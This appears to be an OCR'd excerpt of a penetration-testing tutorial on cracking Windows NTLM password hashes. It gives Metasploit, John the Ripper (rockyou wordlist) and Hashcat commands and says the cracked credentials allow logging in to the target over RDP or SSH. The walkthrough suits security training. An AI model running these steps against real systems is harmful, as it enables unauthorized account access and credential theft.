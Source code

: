 **Crack NTLM hashes using Metasploit**

```shell
# Use an auxiliary NTLM hash cracking module to crack stored NTLM hashes.
use auxiliary/analyze/crack_windows
set CUSTOM_WORDLIST /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
exploit
creds
```

**Crack NTLM hashes using John The Ripper**

```shell
# Let's confirm what other users account are on the system
shell
net user
# Terminate this channel CTRL + C

# Copy the hashes above as they are. Open a new terminal tab. 
cd Desktop/
vim hashes.txt # Paste the hashes as they are save anq quit: i, paste, :wq
cat hashes.txt
```

Let's start off by exploring how we can crack NTLM hashes with John The Ripper.

```shell
john
john --list=formats
john --list=formats | grep NTLM
john --list=formats | grep NT

# If we don't specify the word list, then Jon The Ripper will use its defauls word list.
john --format=NT hashes.txt

# Now if we want to specify word list we can...
john --format=NT hashes.txt --wordlist=<wordlist_location>
# Save the credentials

# Example:
gzip -d /usr/share/wordlists/rockyou.txt.gz
john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

From a penetration tester’s perspective, this information is extremely valuable because it means we can now legitimately authenticate to the target system — either through **RDP** or another protocol such as **SSH**.

**Crack NTLM hashes using Hashcat**

```shell
hashcat --help
hashcat -a 0 -m 1000 hashes.txt /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

**Access the system**

